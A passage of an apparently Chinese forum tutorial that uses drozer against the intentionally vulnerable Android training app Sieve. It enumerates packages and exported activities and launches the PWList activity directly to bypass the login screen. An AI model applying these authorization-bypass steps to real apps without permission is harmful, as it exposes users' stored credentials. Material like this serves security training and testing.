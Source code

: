  

手机端打开代理，开启 31415 端口

```
adb forward tcp:31415 tcp:31415
drozer console connect

```

![](https://bbs.pediy.com/upload/attach/202109/905443_SGDEJQWJS4VHZXG.png)

 

![](https://bbs.pediy.com/upload/attach/202109/905443_EYZABYG4VN5WNSZ.png)

 

我们尝试使用 drozer 去越权绕过该界面，首先，我们先列出程序中所有的 APP 包

```
run app.package.list

```

我们通过查询字段，可以快速定位到 sieve 的包名

 

![](https://bbs.pediy.com/upload/attach/202109/905443_MS6238UCBPJKWMX.png)

 

然后，我们去查询目标应用的攻击面

```
run app.package.attacksurface com.mwr.example.sieve

```

![](https://bbs.pediy.com/upload/attach/202109/905443_DQXBFAUXQWH5H2J.png)

 

我们可以看出，有三个 activity 是被导出的，我们再具体查询暴露 activity 的信息

```
run app.activity.info -a  com.mwr.example.sieve

```

![](https://bbs.pediy.com/upload/attach/202109/905443_FPG5WCPDAZPCUJA.png)

 

说明我们可以通过强制跳转其他两个界面，来实现越权绕过

```
run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList

```

![](https://bbs.pediy.com/upload/attach/202109/905443_KX7XCTFS5DHH54W.png)
